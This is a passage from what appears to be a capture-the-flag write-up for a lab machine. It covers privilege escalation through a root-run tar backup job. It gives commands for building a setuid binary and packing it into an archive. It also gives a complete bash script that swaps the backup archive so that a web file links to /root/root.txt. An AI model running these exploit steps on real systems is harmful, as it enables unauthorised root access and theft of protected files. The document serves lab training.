 Afterwards, we will compile the setuid program and move it into the /var/www/html directory. Finally, we will tar this directory into our tar archive.

```
gcc -m32 -o setuid setuid.c
chmod u+s setuid
tar -zcvf exploit var
```

Finally, all we have to do is to transfer it to the machine and replace it with the name of the backup when it is created. After the check directory is created, all we have to do is to navigation to /check/var/www/html and execute the setuid binary to obtain a root shell.

Unfortunately, I am unable to make this exploit work and so, I used the other exploit to obtain the root flag.

### Exploit script used for privilege Escalation 

```
#!/bin/bash

# work out of shm
cd /dev/shm

# set both start and cur equal to any backup file if it's there
start=$(find /var/tmp -maxdepth 1 -type f -name ".*")
cur=$(find /var/tmp -maxdepth 1 -type f -name ".*")

# loop until there's a change in cur
echo "Waiting for archive filename to change..."
while [ "$start" == "$cur" -o "$cur" == "" ] ; do
    sleep 10;
    cur=$(find /var/tmp -maxdepth 1 -type f -name ".*");
done

# Grab a copy of the archive
echo "File changed... copying here"
cp $cur .

# get filename
fn=$(echo $cur | cut -d'/' -f4)

# extract archive
tar -zxf $fn

# remove robots.txt and replace it with link to root.txt
rm var/www/html/robots.txt
ln -s /root/root.txt var/www/html/robots.txt

# remove old archive
rm $fn

# create new archive
tar czf $fn var

# put it back, and clean up
mv $fn $cur
rm $fn
rm -rf var

# wait for results
echo "Waiting for new logs..."
tail -f /var/backups/onuma_backup_error.txt
```
